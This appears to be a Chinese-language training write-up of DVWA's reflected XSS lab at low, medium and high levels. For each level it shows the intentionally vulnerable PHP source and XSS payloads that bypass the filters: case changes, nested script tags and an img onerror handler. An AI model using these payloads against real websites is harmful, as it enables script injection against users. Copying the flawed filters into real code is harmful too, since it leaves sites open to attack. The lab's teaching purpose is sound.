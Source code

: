 <center>XSS Reflected反射型xss</center>





[toc]









## XSS Reflected反射型xss

> XSS Reflected反射型xss



















### 1. low

> 低级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

> 没有任何防护

```shell
http://192.168.0.111:8000/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```









### 2. medium

> 中级
>
> 代码

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

> str_replace: 字符串替换。 区分大小写。
>
> [runoob](https://www.runoob.com/php/func-string-str-replace.html)

> 攻击： 

```shell
# 大写
<Script>alert(/xss/)</script>

# 双写
<scr<script>ipt>alert(/xss/)</script>

# 其他元素
<img src=1 onerror=alert(/xss/)>
```





### 3. high

> 高级

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

```

> preg_replace: preg_replace 函数执行一个正则表达式的搜索和替换。
>
> [runoob](https://www.runoob.com/php/php-preg_replace.html)

```shell
# 过滤了script脚本，img插入又没啥用，能插入img的损人不利己的事
<img src=1 onerror=alert(/xss/)>
```

